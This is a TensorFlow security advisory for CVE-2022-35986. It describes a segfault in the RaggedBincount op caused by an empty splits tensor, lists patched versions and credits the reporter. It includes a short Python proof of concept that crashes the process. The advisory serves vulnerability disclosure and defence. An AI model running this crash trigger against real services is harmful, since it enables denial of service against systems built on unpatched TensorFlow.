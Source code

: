 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-117.md
## TFSA-2022-117: Segfault in `RaggedBincount`

### CVE Number
CVE-2022-35986

### Impact
If `RaggedBincount` is given an empty input tensor `splits`, it results in a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
binary_output = True
splits = tf.random.uniform(shape=[0], minval=-10000, maxval=10000, dtype=tf.int64, seed=-7430)
values = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.int32, seed=-10000)
size = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.int32, seed=-10000)
weights = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.float32, seed=-10000)
tf.raw_ops.RaggedBincount(splits=splits, values=values, size=size, weights=weights, binary_output=binary_output)
```

### Patches
We have patched the issue in GitHub commit [7a4591fd4f065f4fa903593bc39b2f79530a74b8](https://github.com/tensorflow/tensorflow/commit/7a4591fd4f065f4fa903593bc39b2f79530a74b8).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Di Jin, Secure Systems Labs, Brown University
